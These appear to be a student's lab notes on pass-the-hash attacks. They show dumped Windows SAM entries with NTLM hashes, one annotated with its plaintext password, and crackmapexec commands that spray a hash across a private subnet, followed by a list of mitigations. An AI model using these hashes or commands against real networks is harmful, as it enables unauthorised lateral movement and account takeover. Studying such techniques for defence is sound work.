

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jean Grey:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b::: (NOTE: this should be Password3)
Logan:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
crackmapexec smb <ip> -u "<user name>" -H <hash> --local-auth
crackmapexec smb 192.168.247.0/24 -u "Logan" -H 64f12cddaa88057e06a81b54e73b949b --local-auth

Note can use hashes with psexec.py
MItegations to Pass password/hash
limit account reuse
avoid local admin apasswords
duisable guest and admin account
least privelaged
Stong passwords >14 chars
Privelge Access Management (PAM)
Check out senstive accounts when needed
Rotate password ons checkout check in